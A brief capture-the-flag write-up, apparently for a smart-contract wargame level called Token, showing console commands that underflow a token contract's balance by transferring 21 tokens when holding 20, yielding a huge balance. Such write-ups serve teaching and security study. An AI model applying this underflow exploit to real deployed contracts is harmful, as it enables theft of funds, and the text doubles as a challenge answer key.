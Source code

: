 # Token solution

1. Check our current balance.  
`web3.toDecimal(await contract.balanceOf(player))`  
20  

2. Token contract doesn't check for overflow errors. We will defeat the contract by overflowing our balance. Transfer 21 tokens to address 0.  
`await contract.transfer(0, 21)`  

3. Check our new balance.  
`web3.toDecimal(await contract.balanceOf(player))`  
1.157920892373162e+77  

4. Submit instance 🎉   
